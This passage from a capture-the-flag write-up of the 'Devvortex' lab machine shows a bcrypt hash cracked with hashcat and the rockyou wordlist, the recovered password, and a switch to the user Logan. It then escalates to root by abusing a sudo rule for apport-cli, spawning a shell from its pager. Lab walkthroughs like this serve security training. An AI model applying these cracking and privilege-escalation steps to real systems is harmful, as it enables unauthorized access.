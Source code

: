 ### Cracking Logan Hash

Using [Hash Identifier](https://hashes.com/en/tools/hash_identifier) we can try to see what encryption method the hash is using.

```bash
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 - Possible algorithms: bcrypt $2*$, Blowfish (Unix)
```

It says `Possible algorithm` but i will trust it.

Seeing what number code is assigned to `bcrypt $2*$, Blowfish (Unix)` in hashcat it said 3200, so with the following command we can try to crack the hash.

```bash
hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt 
```

After a while we found the next password:

```bash
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
```

Now we can try to change to Logan.

```bash
www-data@devvortex:/$ su logan
Password: tequieromucho
logan@devvortex:/$ 
```

Now we can read the `user.txt` inside `/home/logan`.

![Desktop View](user.png)

----
## Shell as Root

### Abusing Apport-CLI Sudoers

Making a `sudo -l` to see if we can run any binary as root we see that we can execute a binary named `apport-cli`.

```bash
logan@devvortex:/$ sudo -l
User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

Taking a look in Google for exploits associated to `apport-cli` i found that it's a report manager and that we can use option `-V` we can spawn a shell.

```bash
sudo /usr/bin/apport-cli -c /var/crash/some_crash_file.crash
press V (view report)
!/bin/bash
```
